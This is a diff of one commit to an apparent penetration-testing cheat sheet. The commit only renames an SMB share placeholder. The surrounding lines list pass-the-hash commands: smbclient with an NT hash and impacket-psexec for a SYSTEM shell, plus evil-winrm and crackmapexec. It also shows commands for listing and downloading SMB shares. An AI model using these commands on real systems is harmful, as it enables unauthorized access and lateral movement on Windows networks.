

Before and after one commit to SkinnyRat/Cybersecurity, a Markdown page: exploits/exploits.md, the part around the change. Rendered like a GitHub page.

```diff
--- a/exploits/exploits.md
+++ b/exploits/exploits.md
@@ -237,9 +237,9 @@ other local admins are blocked. Format is `LMHash:NTHash` (LM often 32 zeros):
 smbclient \\\\{{TARGET_IP}}\\secrets -U Administrator --pw-nt-hash <NTHash>   # SMB access with a hash
 impacket-psexec -hashes <LMHash>:<NTHash> Administrator@{{TARGET_IP}}         # interactive SYSTEM shell
 # also: impacket-wmiexec, crackmapexec, evil-winrm -H <NTHash>, RDP (restricted-admin)
-smbclient \\\\{{TARGET_IP}}\\{SHARE} -N
+smbclient \\\\{{TARGET_IP}}\\{{SHARE_NAME}} -N
 smbclient -L {{TARGET_IP}} -U "{{DOMAIN}}/{{USERNAME}}"
-smbclient \\\\{{TARGET_IP}}\\{SHARE} -U "{{DOMAIN}}/{{USERNAME}}"
+smbclient \\\\{{TARGET_IP}}\\{{SHARE_NAME}} -U "{{DOMAIN}}/{{USERNAME}}"
 
 recurse ON
 prompt OFF
```
Also changed, not shown: active/2-harvest.md (+1 -0 lines), active/4-escalate.md (+3 -3 lines).
